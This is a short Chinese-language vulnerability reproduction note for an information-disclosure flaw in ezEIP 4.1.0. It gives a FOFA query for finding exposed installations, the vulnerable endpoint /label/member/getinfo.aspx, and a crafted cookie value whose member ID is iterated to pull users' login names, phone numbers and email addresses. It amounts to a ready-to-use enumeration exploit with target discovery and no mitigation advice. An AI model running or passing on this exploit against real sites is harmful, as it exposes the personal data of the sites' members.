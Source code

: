 # ezEIP 4.1.0 信息泄露漏洞

## 漏洞描述

ezEIP 4.1.0 存在信息泄露漏洞，通过遍历Cookie中的参数值获取敏感信息

## 漏洞影响

> [!NOTE]
>
> ezEIP 4.1.0 

## FOFA

> [!NOTE]
>
> "ezEIP"

## 漏洞复现

漏洞Url为

```
/label/member/getinfo.aspx
```

访问时添加Cookie（通过遍历获取用户的登录名电话邮箱等信息）

```
WHIR_USERINFOR=whir_mem_member_pid=1;
```

![ez-1](http://wikioss.peiqi.tech/vuln/ez-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)